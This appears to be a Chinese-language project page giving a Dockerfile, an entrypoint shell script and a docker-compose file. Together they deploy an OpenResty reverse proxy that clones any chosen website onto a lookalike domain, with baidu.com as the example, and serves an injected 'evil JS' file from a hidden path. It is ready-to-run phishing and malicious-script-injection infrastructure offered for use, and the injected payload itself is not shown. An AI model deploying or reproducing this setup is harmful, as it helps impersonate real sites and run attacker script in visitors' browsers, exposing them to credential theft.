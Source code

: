 ### Nginx - Dockerfile编写

Dockerfile :

```
FROM openresty/openresty:alpine
ENV PROXY_PASS_HOST www.baidu-proxy.com # 自己的域名
ENV PROXY_SOURCE_HOST www.baidu.com # 要克隆的域名
ENV NGINX_LISTEN_PORT 80 # 监听端口，不建议改动
ENV EVIL_JS_URI b026324c6904b2a9cb4b88d6d61c81d1 # JS虚拟目录名称
WORKDIR /tmp/
COPY nginx.conf /usr/local/openresty/nginx/conf/nginx.conf
COPY docker-entrypoint.sh /tmp/docker-entrypoint.sh
RUN mkdir -p /tmp/pricking/static/ && chmod +x /tmp/docker-entrypoint.sh 
ENTRYPOINT ["/tmp/docker-entrypoint.sh"]
```

通过设置环境变量的值，就能完美克隆任意网站。


docker-entrypoint.sh :

```bash
#!/bin/sh
echo "[+] Replace evil js URI..."

sed -e 's/7276df76835ed2272cc0e59f55e49902/b026324c6904b2a9cb4b88d6d61c81d1/' \
        -e "18s/proxy.payloads.online/$PROXY_PASS_HOST/g" \
        -e "27s/payloads.online/$PROXY_SOURCE_HOST/g" \
        -e "28s/payloads.online/$PROXY_SOURCE_HOST/g" \
        -e "19s/80/$NGINX_LISTEN_PORT/g" /usr/local/openresty/nginx/conf/nginx.conf > /usr/local/openresty/nginx/conf/nginx.conf.new
mv /usr/local/openresty/nginx/conf/nginx.conf.new /usr/local/openresty/nginx/conf/nginx.conf

echo "[+] Replace server name : $PROXY_PASS_HOST"

echo "[+] Listen PORT : $NGINX_LISTEN_PORT"
echo "[+] Proxy Pass Host : $PROXY_SOURCE_HOST"

echo "[+] Evil js URL :  $PROXY_PASS_HOST/$EVIL_JS_URI/static.js"
/usr/local/openresty/nginx/sbin/nginx -g "daemon off;" -c /usr/local/openresty/nginx/conf/nginx.conf
```

### Nginx - docker-compose

我将镜像上传到了Docker镜像源中，可以通过如下docker-compose.yml创建实例：

```yml
version: '3'
services:
  nginx:
    image: rvn0xsy/pricking:v1
    ports:
     - "80:80"
    volumes:
     - /tmp/pricking:/tmp/pricking
    environment:
      PROXY_PASS_HOST: proxy.payloads.online
      PROXY_SOURCE_HOST: payloads.online
      NGINX_LISTEN_PORT: 80
      EVIL_JS_URI: b026324c6904b2a9cb4b88d6d61c81d1
```

